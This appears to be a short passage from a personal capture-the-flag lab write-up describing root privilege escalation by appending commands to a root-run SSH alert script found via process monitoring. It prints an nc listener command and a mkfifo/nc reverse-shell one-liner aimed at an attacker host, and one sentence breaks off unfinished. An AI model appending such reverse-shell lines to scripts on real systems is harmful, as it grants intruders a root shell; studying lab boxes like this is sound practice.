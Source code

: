 Reviewing pspy64 and returning to this box: pid 1721 is sendmail: MTA: accepting connections:

Checking the /etc/mail/sendmail.conf:
![rootsendsitselfmail](Screenshots/sendmailcronconf.png)

So potentially hijacking the mailing to reverse shell as root somehow.

chattr changes the file attributes of /usr/local/sbin/ssh-alert.sh from -a remove append writing and then +a for append writing mode. 

```bash
echo 'nc -lvnp 4444' | tee -a /usr/local/sbin/ssh-alert.sh
```
I was to tired after a long week so this began a walkthough. Still feel good about getting this far. I watched the Ippsec video to complete the last of this. The pspy enumeration was great idea, but I over 

```bash
echo 'rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc $IP $PORT >/tmp/f' >> /usr/local/sbin/ssh-alert.sh
```

